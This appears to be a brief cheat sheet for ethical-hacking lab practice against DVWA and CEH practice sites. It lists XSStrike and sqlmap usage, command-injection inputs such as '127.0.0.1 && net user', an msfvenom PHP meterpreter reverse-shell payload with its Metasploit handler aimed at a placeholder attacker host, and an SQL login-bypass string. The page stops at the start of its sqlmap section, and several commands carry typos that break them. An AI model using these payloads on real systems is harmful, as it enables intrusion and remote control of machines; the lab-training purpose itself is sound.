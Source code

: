 **Find if application is vulnerable to XSStrike**<br>
git clone https://github.com/s0md3v/XSStrike<br>
cd XSStrike<br>
pip install -r requirements.txt<br>
python xsstrike.py -u http://www.cehorg.com

**Command Injection**<br>
10.10.10.25:8080/DVWA<br>
use admin/password to login<br>
click on Command Injection<br>
10.10.10.25 will ping<br>
lower security to low in DVWA security<br>
127.0.0.1 && net user<br>
127.0.0.1 && type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt<br>

### Nslookup<br>
**To verify Website's Ip**<br>
Nslookup wwww.example.com

### File Upload Vulnerability
**To create a PHP Payload**<br>
Copy the PHP code and create a .php<br>
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw

**To create a Reverse_tcp Connection**<br>
msfconsole<br>
use exploit/multi/handler<br>
set payload php/meterepreter/reverse_tcp<br>
set LHOST = attacker-ip<br>
set LPORT = attcker-port<br>
run

**To find the secret file**<br>
type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
  
### SQL Injection<br>
Login bypass with [' or 1=1 --]

**OWASP ZAP**<br>
Open the ZAP <br>
Add the webiste name to Autoscan<br>
Click on the Alert tab to know about Vulnerabilities

**DSSS**<br>
Damn Small SQLi Scanner (DSSS) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)<br>

As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.<br>

python3 dsss.py -u "url" --cookie="cookie"

### sqlmap
Open the vulnerable website - [host] (exmpl: http://movies.cehorg.com/viewprofile.aspx?id=1)<br>
Copy the cookie from the inspect element -> Console -> type document.cookie and copy the result - <cookie> (exmpl: mscope=Xf4nda2RM2w=; ui-tabs-1=0)<br>
Open the terminal to use sqlmap 
